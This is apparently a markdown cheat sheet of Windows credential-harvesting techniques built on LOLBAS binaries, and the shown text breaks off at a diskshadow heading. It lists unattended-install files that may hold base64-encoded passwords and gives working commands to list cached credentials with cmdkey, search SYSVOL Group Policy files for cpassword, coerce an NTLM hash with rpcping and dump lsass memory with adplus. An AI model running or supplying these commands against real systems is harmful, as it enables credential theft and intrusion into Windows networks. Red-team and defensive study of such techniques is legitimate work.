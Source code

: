 # Credential Harvesting
## Passwords In Files:
These are common files to find Passwords/Credentials in. They might be base64-encoded. So look out for that.
```
1. c:\sysprep.inf
2. c:\sysprep\sysprep.xml
3. c:\unattend.xml
4. c:\unattended.txt 
5. %WINDIR%\Panther\Unattend\Unattended.xml
6. %WINDIR%\Panther\Unattended.xml
```
### Decode BASE64 in Linux
```
echo "<BASE64-Encoded_Password>" | base64 -d 
```

## cmdkey
https://lolbas-project.github.io/lolbas/Binaries/Cmdkey/#credentials

List cached credentials
```
cmdkey /list
```
## findstr
https://lolbas-project.github.io/lolbas/Binaries/Findstr/#credentials

Search for stored password in Group Policy files stored on SYSVOL.
```
findstr /S /I cpassword \\sysvol\policies\*.xml
```
## rpcping
https://lolbas-project.github.io/lolbas/Binaries/Rpcping/#credentials

Send a RPC test connection to the target server (-s) and force the NTLM hash to be sent in the process.
```
rpcping -s 127.0.0.1 -e 1234 -a privacy -u NTLM
```
## adplus.exe
https://lolbas-project.github.io/lolbas/OtherMSBinaries/Adplus/#dump

Creates a memory dump of the lsass process
```
adplus.exe -hang -pn lsass.exe -o c:\users\mr.d0x\output\folder -quiet
```
## diskshadow
https://lolbas-project.github.io/lolbas/Binaries/Diskshadow/
